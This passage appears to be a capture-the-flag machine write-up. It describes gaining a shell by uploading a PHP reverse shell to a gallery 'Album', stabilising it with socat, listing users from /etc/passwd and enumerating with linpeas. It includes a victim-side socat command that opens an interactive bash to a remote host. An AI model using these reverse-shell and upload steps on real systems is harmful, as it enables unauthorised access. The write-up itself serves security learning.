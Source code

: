 To get a shell we can upload a reverse shell in the **Album** and include it.

<img src="./images/gallery.png">

Here I have used the PHP reverse shell from [PentestMonkey](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php)

After getting shell in order to stabilize it we can use Python.
But I have used socat since it is already installed on the machine.

attacker
```
socat file:`tty`,raw,echo=0 tcp-listen:<port>
```
victim
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:<ip>:<port>
```

<br>

## Machine

We get the shell as the user www-data.

Checking the /etc/passwd shows that we have these users
```
1. mike
2. ubuntu
3. root
```

To enumerate the machine I have used [linpeas](https://linpeas.sh)
Here there is an interesting result

<img src="./images/linpeas.png" width="500">

